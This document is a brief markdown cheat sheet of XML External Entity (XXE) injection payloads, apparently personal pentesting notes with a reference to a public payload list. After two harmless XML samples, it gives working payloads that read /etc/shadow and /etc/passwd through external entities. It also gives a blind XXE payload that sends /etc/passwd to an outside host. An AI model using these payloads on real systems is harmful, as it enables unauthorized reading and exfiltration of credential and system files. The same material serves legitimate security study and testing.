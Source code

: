 # XXE Notes


### Simple XML
```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

### Defining an entity
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

### Local File Inclusion(LFI) with XXE
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```https://github.com/payloadbox/xxe-injection-payload-list

### Blind XXE when the site does not return anything
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```


## References
- https://github.com/payloadbox/xxe-injection-payload-list
